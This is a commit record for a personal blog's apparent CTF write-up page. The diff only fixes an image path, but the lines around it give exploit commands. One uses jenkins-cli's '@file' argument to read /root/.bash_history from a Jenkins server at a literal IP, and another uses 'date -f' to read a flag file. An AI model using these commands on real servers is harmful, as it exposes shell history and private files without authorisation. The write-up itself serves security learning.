

Before and after one commit to linyuqi9/linyuqi9.github.io, a plain HTML site: page 2024/03/25/RW2024/index.html in a window 1280 px wide. Shown: the part 1128-2078 px from the top of the page, without its empty margins (377-1280 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; a script that the page names is missing; files whose address does not match are found by name.

Commit message:
Site updated: 2024-03-25 16:58:56

```diff
--- a/2024/03/25/RW2024/index.html
+++ b/2024/03/25/RW2024/index.html
@@ -136,7 +136,7 @@
 <p><img src="/images/image-20240127201137078.png" alt="image-20240127201137078"></p>
 <h1 id="Be-a-Security-Researcher"><a href="#Be-a-Security-Researcher" class="headerlink" title="Be-a-Security-Researcher"></a>Be-a-Security-Researcher</h1><p>先到网上下载一个<code>jenkins-cli</code>，poc直接打，读<code>.bash_history</code></p>
 <p><code>java -jar jenkins-cli.jar -s http://47.96.171.129:8080/ help &quot;@/root/.bash_history&quot;</code></p>
-<p><img src="/images%5Cimage-20240127201528995.png" alt="image-20240127201528995"></p>
+<p><img src="/images/image-20240127201528995.png" alt="image-20240127201528995"></p>
 <h1 id="vision"><a href="#vision" class="headerlink" title="vision"></a>vision</h1><p>首先help发现存在date命令，可以使用<code>date -f</code>读取文件</p>
 <p><code>date -f /flag</code></p>
 <p><img src="/images/image-20240127220545316.png" alt="image-20240127220545316"></p>
```
